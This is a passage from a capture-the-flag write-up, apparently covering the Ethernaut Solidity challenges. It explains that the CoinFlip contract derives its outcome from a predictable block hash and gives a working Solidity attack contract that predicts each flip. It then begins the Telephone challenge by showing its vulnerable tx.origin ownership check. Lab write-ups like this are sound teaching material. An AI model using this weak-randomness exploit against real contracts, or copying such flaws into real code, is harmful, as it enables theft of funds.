 ```solidity
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

We have to call flip method with a guess and it is considered a win if our guess matches with the contract calculated guess. we have to guess the flip correctly 10 times in line to complete the challenge. The bug is in the calculation of the contract filp, it is calculated solely based on the block hash of the block the transaction is in. The block hash will be same for every other transaction included in the same block as the flip method call transaction. so, the idea is to calculate the "guess" using our exploit smart contract and call the challenge smart contract using message call with the calculated guess.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

interface COINFLIP{
  function flip(bool _guess) external returns (bool);
}

contract Attack {
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  COINFLIP cF = COINFLIP(0xEf226d8FB965d6DA727fE8794d94f9746E18b060);

  function calculateFlip() public {
    uint256 blockValue = uint256(blockhash(block.number -  1 ));
    uint256 flip = blockValue / FACTOR;
    bool guess = flip == 1 ? true : false;
    require(cF.flip(guess));
  }
}
```

"calculateFlip" should be called in 10 different transactions one after other as every flip method call should be in a different block.

### Telephone

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```